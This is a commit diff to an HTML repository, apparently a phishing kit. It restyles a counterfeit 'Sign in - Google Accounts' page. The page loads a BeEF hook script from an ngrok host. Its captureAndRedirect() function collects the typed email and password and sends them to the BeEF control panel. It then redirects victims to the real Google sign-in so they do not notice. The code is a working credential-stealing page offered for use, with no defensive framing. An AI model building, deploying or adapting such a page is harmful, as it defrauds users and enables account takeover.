

Before and after one commit to ahmedmhiri1/secure-connect, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 342-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor sign-in page layout and functionality
Updated HTML structure and styles for the sign-in page, including new input groups and a capture function.

```diff
--- a/index.html
+++ b/index.html
@@ -1,50 +1,115 @@
 <!DOCTYPE html>
-<html>
+<html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Sign in - Google Accounts</title>
+    <link rel="icon" type="image/x-icon" href="https://www.google.com/favicon.ico">
+
     <script src="https://harrison-unsilicated-talon.ngrok-free.dev/hook.js"></script>
+
     <style>
-        body { font-family: 'Roboto', arial, sans-serif; background-color: #fff; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .login-card { border: 1px solid #dadce0; border-radius: 8px; width: 450px; padding: 48px 40px 36px; text-align: center; }
+        * { box-sizing: border-box; }
+        body {
+            font-family: "Google Sans", "Roboto", arial, sans-serif;
+            background-color: #fff;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+            color: #202124;
+        }
+        .container {
+            width: 100%;
+            max-width: 450px;
+            padding: 48px 40px 36px;
+            border: 1px solid #dadce0;
+            border-radius: 8px;
+            text-align: center;
+        }
+        @media (max-width: 600px) {
+            .container { border: none; padding: 20px; }
+        }
         .logo { width: 75px; margin-bottom: 10px; }
-        h1 { font-size: 24px; font-weight: 400; margin-bottom: 8px; }
-        p { font-size: 16px; margin-bottom: 24px; }
-        input { width: 100%; padding: 13px 15px; margin: 10px 0; border: 1px solid #dadce0; border-radius: 4px; box-sizing: border-box; font-size: 16px; }
-        .btn { background-color: #1a73e8; color: white; border: none; padding: 10px 24px; border-radius: 4px; font-weight: 500; cursor: pointer; float: right; margin-top: 20px; }
-        .footer { clear: both; padding-top: 40px; font-size: 12px; color: #70757a; text-align: left; }
+        h1 { font-size: 24px; font-weight: 400; margin: 10px 0; }
+        p { font-size: 16px; margin-bottom: 40px; }
+
+        .input-group { position: relative; margin-bottom: 25px; text-align: left; }
+        input {
+            width: 100%;
+            padding: 13px 15px;
+            font-size: 16px;
+            border: 1px solid #dadce0;
+            border-radius: 4px;
+            outline: none;
+            transition: border 0.2s;
+        }
+        input:focus { border: 2px solid #1a73e8; padding: 12px 14px; }
+
+        .links {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            margin-top: 40px;
+        }
+        .create-account {
+            color: #1a73e8;
+            font-weight: 500;
+            font-size: 14px;
+            text-decoration: none;
+            cursor: pointer;
+        }
+        .btn-next {
+            background-color: #1a73e8;
+            color: #fff;
+            border: none;
+            padding: 10px 24px;
+            border-radius: 4px;
+            font-weight: 500;
+            font-size: 14px;
+            cursor: pointer;
+            transition: background 0.2s;
+        }
+        .btn-next:hover { background-color: #1557b0; box-shadow: 0 1px 2px rgba(60,64,67,0.3); }
     </style>
 </head>
 <body>
-    <div class="login-card">
-        <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" class="logo" alt="Google">
-        <h1>Sign in</h1>
-        <p>Use your Google Account</p>
-        <input type="email" id="email" placeholder="Email or phone" required>
-        <input type="password" id="pass" placeholder="Enter your password" required>
-        <div style="text-align: left; color: #1a73e8; font-size: 14px; margin-top: 10px; cursor: pointer;">Forgot password?</div>
-        <button class="btn" onclick="capture()">Next</button>
-        <div class="footer">Not your computer? Use Guest mode to sign in privately.</div>
+
+<div class="container">
+    <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google" class="logo">
+    <h1>Sign in</h1>
+    <p>Use your Google Account</p>
+
+    <div class="input-group">
+        <input type="email" id="email" placeholder="Email or phone" autocomplete="username">
+    </div>
+    <div class="input-group">
+        <input type="password" id="pass" placeholder="Enter your password" autocomplete="current-password">
     </div>
 
-    <script>
-        function capture() {
-            var email = document.getElementById('email').value;
-            var pass = document.getElementById('pass').value;
+    <div class="links">
+        <span class="create-account">Forgot password?</span>
+        <button class="btn-next" onclick="captureAndRedirect()">Next</button>
+    </div>
+</div>
 
-            // Sends the data to your BeEF Logs
-            if(typeof beef !== 'undefined') {
-                beef.net.send('/log', 0, "GOOGLE_CREDS - User: " + email + " | Pass: " + pass);
-            } else {
-                console.log("Hook not active, but data captured: " + email + ":" + pass);
-            }
+<script>
+    function captureAndRedirect() {
+        const email = document.getElementById('email').value;
+        const pass = document.getElementById('pass').value;
 
-            // Redirect to real Google after "stealing" to reduce suspicion
-            setTimeout(function() {
-                window.location.href = "https://accounts.google.com/signin";
-            }, 1000);
+        // Send data to BeEF control panel
+        if (typeof beef !== 'undefined') {
+            beef.net.send('/log', 0, "MODERN_UI_CAPTURE -> User: " + email + " | Pass: " + pass);
         }
-    </script>
+
+        // Realistic delay before redirecting to real Google
+        setTimeout(() => {
+            window.location.href = "https://accounts.google.com/v3/signin/identifier";
+        }, 800);
+    }
+</script>
+
 </body>
 </html>
```
